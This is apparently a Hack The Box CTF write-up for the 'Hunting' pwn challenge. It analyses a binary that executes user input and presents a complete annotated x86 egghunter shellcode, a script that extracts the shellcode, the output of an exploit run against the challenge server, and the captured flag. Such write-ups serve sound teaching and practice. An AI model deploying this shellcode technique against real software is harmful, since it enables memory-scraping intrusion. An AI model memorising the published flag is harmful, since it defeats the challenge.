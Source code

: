 # Hunting

# Solution

Check the binary security

```bash
cmd: checksec --file=hunting

Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled
PIE:      PIE enabled
RWX:      Has RWX segments
```

Ok... not much security ... <br>

Running the program and providing any input gives a seg fault

```bash
27692 segmentation fault (core dumped)  ./hunting
```

Lets load it in ghidra <br>

From the code it is visible that the program registers an handler for the SIGALARM and launch an alarm for 3 seconds
```
signal(0xe,exit); <- call exit() when handling SIGALARM
alarm(3);
```

Since the ghidra and binary ninja decompilation was pretty innacurate, i downloaded IDA pro and use its decompiler (which came better than the others)

```c
int sub_1374()
{
  void *addr; // ST2C_4
  void *buf; // ST24_4
  int v3; // [esp-4h] [ebp-18h]
  char *dest; // [esp+4h] [ebp-10h]

  addr = (void *)sub_12E8();
  signal(14, (__sighandler_t)&exit);
  alarm(3u);
  dest = (char *)mmap(addr, 0x1000u, 3, 49, -1, 0);
  if ( dest == (char *)-1 )
    sub_1118(0x4000);
  strcpy(dest, aHtbXxxxxxxxxxx);
  memset(aHtbXxxxxxxxxxx, 0, 0x25u);
  sub_1259();
  buf = malloc(0x3Cu);
  read(0, buf, 0x3Cu);
  ((void (__stdcall *)(int, void *, _DWORD))buf)(v3, buf, 0);
  return 0;
}
```

What it does is:
1. Generates a memory address [**addr = sub_12E8()**]
2. Creates and sets a signal alarm to exit after 3 seconds [**signal(14, (__sighandler_t)&exit); alarm(3u);**]
3. Map the **addr** generated to a page size (4096) [**mmap(addr, 0x1000u, 3, 49, -1, 0);**]
4. Then copies the flag to the new mapped region [**strcpy(dest, aHtbXxxxxxxxxxx);**]
5. Clears the previous flag location [**memset(aHtbXxxxxxxxxxx, 0, 0x25u);**]
6. Allocs a buffer of 60 bytes and reads those 60 bytes from STDIN [**buf = malloc(0x3Cu); read(0, buf, 0x3Cu);**] 
7. Calls the read input 

After researching, found out to exist a technique called [egg hunting](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf) which basically tests memory regions to find a planted egg in the process's memory. In the case of this challenge, we need to find the memory in which the flag is placed<br>

This technique relies on systemcalls (**access** or **sigaction**) to test memory pages and then define if the planted egg is found by testing the addresses within the page. For this, i'll use the **access** syscall <br>

As stated before, the new memory location for the flag is allocated with **mmap** but we have not seen what type of addresses are generated by the very early function (function below). 

```c
int sub_12E8()
{
  unsigned int buf; // [esp+0h] [ebp-18h]
  int fd; // [esp+8h] [ebp-10h]
  int i; // [esp+Ch] [ebp-Ch]

  fd = open("/dev/urandom", 0);
  read(fd, &buf, 8u);
  close(fd);
  srand(buf);
  for ( i = 0; i <= 1610612735 || (unsigned int)i > 0xF7000000; i = rand() << 16 )
    ;
  return i;
}
```

We can see that it generates an address between **1610612735** (0x5FFFFFFF) and **0xF7000000** based on a random number (the random generator is not vulnerable because it is seeded correctly) <br>

**Note**
```
testing this locally was giving me problems because i use a 64bit system. as soon as i went to a 32bit virtual machine, local testing performed as expected
```

Now, we can start crafting our egghunter to find the flag. Our egg will be the beggining of the flag (**HTB{**) beacause it has the needed 4 bytes. If we did not had it, we would need to test against lower register bytes (**AH** or **AL**, for example)<br>

The information we have about things that are important to the shellcode is:
1. A timer (3 seconds)
2. 60 bytes of payload (which is actually enough)
3. Shell code cant have null bytes
4. The flag size (from the code) is: 36 (0x24) -> HTB{X*31}

```assembly
section .text
global _start

_start:
    push 0x1b             ; push 0x1b to the stack
    pop eax               ; set eax to 0x1b (alarm syscall number)
    push 0x7F             ; push 127 to the stack
    pop ebx               ; set ebx to 127 seconds
    int 0x80              ; syscall alarm
	  mov edi, 0x7b425448   ; define the egg "HTB{" -> 0x7b425448
	  mov edx, 0x5FFFFFFF   ; define starting address  

next_page:
    or dx, 0xfff          ; increment to 0x60000000 (first run)

next_address:
    inc edx               ; increment memory region to test
    pusha                 ; save GP registers
    lea ebx, [edx]        ; load the address to test into ebx
    mov al, 0x21          ; load the access syscall number
    xor ecx,ecx           ; clear ecx for access mode
    int 0x80              ; syscall address
    cmp al, 0xf2          ; compare result against EFAULT  
    popa                  ; restore stack stored GP registers
    jz next_page          ; IF 0 -> test next page   (cannot access)
    cmp [edx], edi        ; compare the EGG against the value withtin the valid address  
    jnz next_address      ; IF != 0 -> test next address, else matches  
    push 0x4              ; Push 0x4 into stack (write syscall)
    pop eax               ; set eax to 0x4
    xor ebx,ebx           ; clear EBX  
    inc bl                ; set EBX to 1 (File Descriptor) -> STDOUT  
    mov ecx, edx          ; load the address found into ECX (third argument)
    push 0x24             ; push the size of the flag into the stack    
    pop edx               ; set EDX to flag size (populate write's 4th argument)
    int 0x80              ; syscall write
    jmp _start            ; Jmp to the beggining 
```

Then, to assemble and extract the shellcode itself, i wrote a small bash (**exec.sh**) script that does it
```bash 
#!/bin/bash

echo -e "Assemlbing..."
nasm -f elf32 code.asm

echo -e "Linking..."
ld -melf_i386 -s -o runnable code.o

echo -e "\n############ ->    SHELL CODE   <- ###################"
objdump -d ./code.o |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/
```

In order to check it locally, i used **strace** to view what the shellcode was doing in an higher level
```bash
echo -ne "outputed_shell_code" | strace ./hunting  > output
```

The output genarated show that it, in the remote, it will give us what we want
```
HTB{XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX}
```

You might be asking some things:
1. Why setting the alarm in the beggining ?!
2. Why jumping to the start at the end ?!

The answers are quite simple and straightforward:
1. Resetting the alarm overrides previous calls
2. This is a bit longer (check below) 

After calling the write syscall, the code had no further instructions on where to continue and so, it will execute some random instruction leading to a SIGSEV <br> 
This behavior may not give us the needed time to transfer the flag accross the network. By restarting the whole process (jumping to the start), we are giving the network time to transfer the bytes and then, when the flag is completely received, we can close the connection and thus kill the process <br>

**Note:** In this note's folder, both resources (the bash to generate the payload, and the python to execute it) will be present

After putting the shellcode into the python exploit helper, we got it!!!

```bash
cmd: python exp.py

[*] Connecting to remote host
[+] Opening connection to 139.59.178.146 on port 31505: Done
[p] Sending shellcode....
[*] Waiting response...
[+] Here you have: b'HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}'
[*] Closed connection to 139.59.178.146 port 31505
```

## FLAG: HTB{H0w_0n_34rth_d1d_y0u_f1nd_m3?!?}